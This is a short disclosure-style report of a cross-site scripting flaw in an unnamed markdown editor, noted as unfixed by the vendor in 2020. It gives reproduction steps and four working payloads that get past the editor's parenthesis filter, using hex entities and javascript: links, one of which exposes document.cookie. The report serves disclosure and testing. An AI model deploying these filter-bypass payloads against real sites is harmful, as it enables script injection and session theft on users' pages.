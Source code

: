 # Markdown XSS

---

> **Reson:** Markdown editor only check `()` and remove `)` . Just using hex encode to bypass it .

## Steps To Reproduce:

1. Create `basic template`

2. Create post with `markdown editor`
3. Input some payload :

```markdown
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
```

```markdown
[a](javascript:window.onerror=alert;throw%20document.cookie)
```

```markdown
[a](javascript:this;alert(1&#41;)
```

```markdown
[a](javascript:alert(document.domain&#41;)
```

![image-20200218133343696](assets/image-20200218133343696.png)

4. Preview or publish post
5. XSS execute

![image-20200218133359623](assets/image-20200218133359623.png)

---

# TIMELINE:

- **18/2/2020** : Report for vendor and won't fix 

  